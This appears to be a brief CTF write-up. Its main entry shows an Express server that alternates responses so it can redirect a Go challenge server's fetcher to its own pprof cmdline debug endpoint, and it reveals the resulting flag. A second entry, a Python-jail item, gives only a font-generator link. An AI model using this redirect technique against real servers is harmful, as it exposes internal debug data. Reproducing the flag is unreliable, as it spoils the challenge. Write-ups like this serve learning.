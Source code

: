 ## Proxy for life
![image](https://hackmd.io/_uploads/B1x3KBwBA.png)


- Chall white-box with go server

poc :

```
const express = require('express')
const app = express()
const port = 3000

let switchFlag = 0;

app.get('/', (req, res) => {
    if (switchFlag == 0) {
        res.send('Hello World!');
        switchFlag = 1;
    } else {
        res.redirect('http://localhost:1337/debug/pprof/cmdline');
        switchFlag = 0;
    }
});

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
```

- document for result : https://pkg.go.dev/net/http/pprof

flag : `AKASEC{r0t4t3d_p20x1n9_f002_11f3_15n7_92347_4f732_411____}`


## Misc/Pyjail

https://capitalizemytitle.com/gothic-font-generator/

![image](https://hackmd.io/_uploads/B1zpXX8HC.png)